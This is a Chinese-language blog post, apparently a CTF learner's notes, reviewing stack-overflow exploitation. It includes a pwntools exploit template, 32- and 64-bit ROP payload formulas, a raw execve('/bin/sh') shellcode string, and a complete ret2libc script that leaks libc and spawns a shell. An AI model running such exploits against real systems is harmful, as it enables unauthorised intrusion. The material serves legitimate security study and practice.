

### 起因

很久没有接触过 pwn 了，上次学 pwn 还在一年多前学到堆。最近想重新捡起来 pwn 的知识，复建一下。顺便看看能不能把 blog 捡起来。

本篇文章会记录一下复现栈溢出的细节，顺便重新学一下之前没彻底搞懂的知识点

### 工具整理

调试工具：[pwndbg](https://github.com/pwndbg/pwndbg)

python 库：[pwntools](https://github.com/Gallopsled/pwntools)

调试界面配置（效果如图）：[splitmind](https://github.com/jerdna-regeiz/splitmind) [看雪](https://bbs.kanxue.com/thread-276203.htm)

​	tmux 启用鼠标操作指令（默认关闭）：`tmux set-option -g mouse on`




标准解题 exp 模板：

```python
from pwn import *
# context.terminal=['tmux','split','-h']
# context.terminal=["open-wsl.exe","-c"]

context(arch='amd64', os='linux', log_level='info')
# context(arch='i386', os='linux', log_level='debug')

# functions for quick script
s = lambda data :p.send(data)
sa = lambda delim,data :p.sendafter(delim, data)
sl = lambda data :p.sendline(data)
sla = lambda delim,data :p.sendlineafter(delim, data)
r = lambda numb=4096,timeout=2:p.recv(numb, timeout=timeout)
ru = lambda delims, drop=True :p.recvuntil(delims, drop)
irt = lambda :p.interactive()
dbg = lambda gs='', **kwargs :gdb.attach(p, gdbscript=gs, **kwargs)
# misc functions
uu32 = lambda data :u32(data.ljust(4, b'\x00'))
uu64 = lambda data :u64(data.ljust(8, b'\x00'))
leak = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))

def rs(arg=''):
    global p
    if arg == 'remote':
        p = remote(*host)
    else:
        p = binary.process()
        # p = process([ld.path, binary.path], env={"LD_PRELOAD": libc.path})

# ld = ELF("./ld-linux-x86-64.so.2.so")
libc = ELF('./libc-2.23.so', checksec=False)
binary = ELF('./ret2text', checksec=True)
# host = ('43.198.152.253', 50002)
# rs('remote')
rs()

# dbg()
# pause()

payload = b'a' * 0x10 
sla(b"", payload)

irt()
```


### 32 位栈溢出

32 位栈溢出没什么坑，大部分只需要计算正确的偏移就能成功操作，传参都在栈上。一般的利用模板为：

```python
payload = 'a' * offset + 'a' * 4 + p32(ret2add) + 'a' * 4 + p32(arg1) + p32(arg2)...
```


### 64 位栈溢出

#### 栈对齐

如果在没有任何其他的情况下跳转到**一个对栈地址的操作指令**，就可能会造成程序的报错以至于使程序异常退出。比较常见的就是每个函数开头的 `push rbp`，如果没有满足 rsp 16 字节对齐，就往往会异常退出

比较简单且常见的解决方法就是在跳转地址前加个裸的 `ret` ，以满足栈对齐的条件

#### Gadget 

在 64 位下，由于传参的改变（当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。当参数为7个以上时， 前 6 个与前面一样， 但后面的依次从 “右向左” 放入栈中，即和32位汇编一样），需要用到 gadget 去对参数进行处理。在已经劫持控制流的基础下，完成函数的传参

常用指令 `ROPgadget --binary xxx| grep "regex"` 寻找 gadgets


64 位栈溢出的公式总结如下：

```python
payload = 'a' * offset + 'a' * 8 + p64(gadget_pop_rip) + p64(arg1) + p64(ret2add)...
```


### shellcode

shellcode 自动化生成可以用 `asm(shellcraft.sh())` 来生产，它是根据你之前设置的 `context(arch='amd64') or context(arch='i386')` 来决定是生成 64 位还是 32 位的shellcode

但有的时候它生成的不够长，往往需要去人为构造（或者网上搜索），常用的 32 位短 shellcode 为：
```python
b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```


### ret2lib

ret2lib 其实在之前写过后就没什么难度，这里贴一个题目样例记录一下自动化读取函数地址的用法，一个简单的 ret2lib 样例如下：

```python
from pwn import *
# context.terminal=['tmux','split','-h']
# context.terminal=["open-wsl.exe","-c"]

# context(arch='amd64', os='linux', log_level='info')
context(arch='i386', os='linux', log_level='debug')

# functions for quick script
s = lambda data :p.send(data)
sa = lambda delim,data :p.sendafter(delim, data)
sl = lambda data :p.sendline(data)
sla = lambda delim,data :p.sendlineafter(delim, data)
r = lambda numb=4096,timeout=2:p.recv(numb, timeout=timeout)
ru = lambda delims, drop=True :p.recvuntil(delims, drop)
irt = lambda :p.interactive()
dbg = lambda gs='', **kwargs :gdb.attach(p, gdbscript=gs, **kwargs)
# misc functions
# uu32 = lambda data :u32(data.ljust(4, b'\x00'))
uu64 = lambda data :u64(data.ljust(8, b'\x00'))
leak = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))

def rs(arg=''):
    global p
    if arg == 'remote':
        p = remote(*host)
    else:
        # p = binary.process()        
        p = process([ld.path, binary.path], env={"LD_PRELOAD": libc.path})

ld = ELF("./ld-linux-x86-64.so.2.so")
libc = ELF('./libc.so.6.so', checksec=False)
binary = ELF('./onegadget', checksec=True)
# rs('remote')
rs()

puts_got = binary.got['puts']
puts_plt = binary.plt['puts']
lib_system = libc.symbols['system']
lib_binsh = 0x00000000001b3e9a
# lib_binsh = 0x001b5fc8

pop_rdi = 0x00000000004007a3

rop_add = 0x0000000000400687

ret_add = 0x00000000004007A4
# payload = b'a' * 0x80 + b'a' * 8 + p64(pop_rdi) + p64(puts_plt)
payload = b'a' * 0x80 + b'a' * 8 + p64(ret_add) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(0x00000000004006C0) + p64(rop_add)

sa(b"> \n", payload)

lib_puts = uu64(r(6))
print(hex(lib_puts))

lib_off = lib_puts - libc.symbols['puts']

sys_add = lib_off + lib_system
binsh_add = lib_off + lib_binsh

payload = b'a' * 0x80 + b'a' * 8 + p64(ret_add) + p64(pop_rdi) + p64(binsh_add) + p64(sys_add)

# # dbg()
# # pause()

sa(b"> \n", payload)
irt()
```

